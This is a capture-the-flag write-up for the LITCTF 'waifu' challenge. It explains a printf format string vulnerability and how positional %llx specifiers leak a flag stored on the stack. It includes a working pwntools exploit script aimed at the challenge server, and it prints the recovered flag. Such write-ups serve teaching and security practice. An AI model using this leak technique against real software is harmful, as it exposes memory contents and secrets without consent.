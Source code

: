 # waifu
> Honestly I just needed a name, I am almost out of time :skull:.
> Connect with nc litctf.live 31791
>
> Downloads
> [waifu.zip](https://drive.google.com/uc?export=download&id=1SVW7rWSdpu3cPYDyATw5a9pJJMH0umTS)

## Identifying the vulnerability
The program stores the flag on top of the stack and than uses `scanf` to read a string from the user, which is safe and not exploitable in this challenge. The dangerous part is line 27:
```c
printf(buf);
```
Using `printf` to print a user-supplied string leads to format string vulnerability - by supplying a string with printf-recognized formatters we can force the program to show arbitrary data present on the stack.

## Format string vulnerability theory
We know that the flag is stored on the stack and that there's an exploit that allows us to read arbitrary stack data. Since the flag is stored as a sequence of characters (and not as a pointer to a character) we can't use the "%s" formatter to read it - instead we'll use "%llx" which prints a quad-word (8 bytes long number) as a hexadecimal number.
We also need to know which quad-words in particular to read. Let's take a look at the calling convention used in x64 Linux [https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI). The first 6 arguments are stored in registers and the rest of the arguments are stored on the stack - so the top of the stack is the 7th argument. Since the first argument of `printf`, passed in rdi, is the format string, the top of the stack will be the 6th vararg.
Despite that we don't have to repeat "%llx" 5 times before reading meaningful data - we can use formatters in this form:
`"%n$llx"` (where n is an integer)
to immediately read nth argument. We'll therefore use "%6$llx", "%7$llx" and so on to read the flag.
There's one last thing we need to note: x64 architecture stores number in little-endian order (least significant byte first). This means that if the top of the stack contains the string "ABCDEFGH" and we try to read it using "%6$llx", we'll get "4847464544434241" (which is hex-encoded "HGFEDCBA"). This means that the most convenient way to read the flag will be to read the quad-words in backwards order, hex-decode them and then reverse the result to get the flag.
Armed with all this knowledge, we're finally ready to exploit the vulnerability.

## Crafting the exploit
Given that the max length of the input is 40 characters, we can only fit 3 formatters in the form "%n$llx" in one go. As it turns out, the flag is quite long and it won't be enough so we'll have to run the exploit twice, with different numbers. The following script written in Python with pwnlib handles this task and reads the whole flag:
```py
from binascii import unhexlify
from pwn import *

flag = b''

for ns in ((8, 7, 6), (10, 9)):
	payload = ''.join(f'%{i}$llx' for i in ns) # formatters in reverse order because of little-endianess

  p = remote('litctf.live', 31791)

	p.recvuntil(b'waifus?\n')
	p.sendline(payload.encode())
	p.recvuntil(b'say:\n')
	hexed = p.recvline().strip()
	flag += unhexlify(hexed)[::-1] # reversing the decoded part of flag before adding it to the buffer, because of little-endianess

print(flag)
```

## Flag
`LITCTF{fr0m_t3xt4r7.sh_uwaaaaaaaaaaaaaa}`
